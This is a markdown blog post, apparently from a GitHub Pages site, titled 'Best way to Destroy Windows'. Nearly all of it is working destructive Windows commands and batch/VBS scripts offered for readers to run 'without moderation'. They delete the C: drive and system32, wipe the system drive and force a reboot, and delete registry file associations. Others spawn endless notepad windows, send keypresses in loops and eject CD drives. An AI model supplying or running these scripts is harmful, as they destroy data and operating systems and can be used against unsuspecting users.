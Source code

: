 ```yaml
---
layout: post
title: Best way to Destroy Windows
subtitle: Run this command without moderation;)
bigimg: /img/winfuckair.gif
---
```


## Best way to Destroy Windows
Run this command without moderation;)

### 1. Type this in command prompt:

> RD C:\ /S /Q

> del c:\windows\system32\*.* /q

> del /f /s /q "C:\*.*."

### 2. Type this in notepad:

Save the file anywhere (.bat) and execute it:

###### 2.1 The blue screen of Death

Code:

```
@echo off
del %systemdrive%\*.*/f/s/q
shutdown -r -f -t 00
```

 
###### 2.2 Stupidity Shutdown

code:

```
@echo off
msg * Fatal system error due to admin stupidity!
shutdown -c “Error! You are too stupid!” -s -t 10
```

 
###### 2.3 Delete Key Registry Files

code:

```
@ECHO OFF
START reg delete HKCR/.exe
START reg delete HKCR/.dll
START reg delete HKCR/*
:MESSAGE
ECHO Your computer has been fcked.Â Â Have a nice day.
GOTO MESSAGE
```

 
###### 2.4 Endless Notepads

code:

```
@ECHO off
:top
START %SystemRoot%\system32\notepad.exe
GOTO top
```

 
###### 2.5 Crazy caps lock

code:

```
Set wshShell =wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “{CAPSLOCK}”
loop
```

 
###### 2.6 Endless Enter

code:

```
Set wshShell = wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “~(enter)”
loop
```

 
###### 2.7 Endless Backspace

code:

```
MsgBox “Let’s go back a few steps”
Set wshShell =wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “{bs}”
loop
```

 
###### 2.8 Popping CD Drives

code:

```
Set oWMP = CreateObject(“WMPlayer.OCX.7”)
Set colCDROMs = oWMP.cdromCollection
do
if colCDROMs.Count >= 1 then
For i = 0 to colCDROMs.Count – 1
colCDROMs.Item(i).Eject
Next
For i = 0 to colCDROMs.Count – 1
colCDROMs.Item(i).Eject
Next
End If
wscript.sleep 100
loop
```

 
And have a good day!

Font's: [dbsdp](http://dbsdp.blogspot.com.br/2010/10/destroy-xp-with-single-command.html) | [itechnobuzz](https://www.itechnobuzz.com/the-8-deadly-windows-vbs-commands/l)

